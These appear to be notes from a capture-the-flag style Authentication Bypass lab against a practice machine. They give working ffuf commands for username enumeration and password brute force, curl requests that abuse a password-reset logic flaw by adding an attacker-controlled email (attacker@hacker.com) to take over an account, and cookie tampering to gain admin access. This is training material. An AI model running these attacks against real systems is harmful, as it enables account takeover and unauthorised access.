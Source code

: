 Authentication Bypass
==

Username Enumeration
--
If you try entering the username admin and fill in the other form fields with fake information, you'll see we get the error An account with this username already exists. We can use the existence of this error message to produce a list of valid usernames already signed up on the system by using the ffuf tool below. The ffuf tool uses a list of commonly used usernames to check against for any matches.

```shell
ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://x.x.x.x/customers/signup -mr "username already exists"
```


Brute Force
--

```shell
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.239.245/customers/login -fc 200
```


Logic Flaw
--
Sometimes authentication processes contain logic flaws. A logic flaw is when the typical logical path of an application is either bypassed, circumvented or manipulated by a hacker. Logic flaws can exist in any area of a website, but we're going to concentrate on examples relating to authentication in this instance.



```shell
curl 'http://10.10.239.245/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert'
```

```shell
curl 'http://10.10.239.245/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'
```
For the next step, you'll need to create an account on the Acme IT support customer section, doing so gives you a unique email address that can be used to create support tickets.

```shell
u curl 'http://10.10.239.245/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email={username}@customer.acmeitsupport.thm'
```

Cookie Tampering
--
### Plain Text

```shell
curl http://10.10.239.245/cookie-test
```
```shell
curl -H "Cookie: logged_in=true; admin=false" http://10.10.239.245/cookie-test
```
```shell
curl -H "Cookie: logged_in=true; admin=true" http://10.10.239.245/cookie-test
```
### Hashing

[Database](https://crackstation.net/) of billions of hashes and their original strings

decode base64 string

```shell
echo "VEhNe0JBU0U2NF9FTkNPRElOR30=" | base64 --decode
```
encode string to base64
```shell
echo "mystring" | base64
```
